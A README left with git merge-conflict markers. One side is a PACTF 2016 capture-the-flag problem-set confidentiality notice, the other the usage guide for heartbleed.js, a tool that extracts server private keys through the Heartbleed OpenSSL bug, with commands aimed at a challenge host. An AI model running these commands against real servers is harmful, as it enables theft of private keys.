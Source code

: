 <<<<<<< HEAD
# PACTF Problem Set 2016
This repository contains the 2016 PACTF problem set.

You must agree to the 'Confidentiality Warning' and the 'Contributor Agreement', as specified below. Otherwise, you must immediately remove your access to this repository, destroy all copies of information obtained from this repository, and notify us immediately at contact@pactf.com.

## Confidentiality Warning
This repository contains confidential and proprietary information. The unauthorized possession, use, reproduction, distribution, display or disclosure of material in this repository is prohibited. The information contained in this repository should not be disclosed or reproduced in whole or in part, except as part of the PACTF.com website for the sole purpose of facilitating the necessary operations of the PACTF competition.

## Contributing
By contributing to this repository, you understand and fully accept our [Contributor Agreement](CONTRIBUTING.md).
=======
# Heartbleed

Extracting server private key using [Heartbleed][0] OpenSSL vulnerability.

NOTE: Pointing this tool at other people's servers is illegal in most countries.

## How to use

```bash
$ npm install -g heartbleed.js
$ heartbleed
Options:
  --host         [required]
  --port         [default: 443]
  --concurrency  [default: 1]

Missing required arguments: host

$ heartbleed -h cloudflarechallenge.com -c 1000 >> key.pem
```

Protip, use cheap ciphers:

```bash
heartbleed -h cloudflarechallenge.com -c 1000 --ciphers="AES128-SHA" >> key.pem
```

#### LICENSE

This software is licensed under the MIT License.

Copyright Fedor Indutny, 2014.

Permission is hereby granted, free of charge, to any person obtaining a
copy of this software and associated documentation files (the
"Software"), to deal in the Software without restriction, including
without limitation the rights to use, copy, modify, merge, publish,
distribute, sublicense, and/or sell copies of the Software, and to permit
persons to whom the Software is furnished to do so, subject to the
following conditions:

The above copyright notice and this permission notice shall be included
in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN
NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM,
DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR
OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE
USE OR OTHER DEALINGS IN THE SOFTWARE.

[0]: http://heartbleed.com/
>>>>>>> 82e8a363aed831097f2b4fc3cbc072ce0820a668
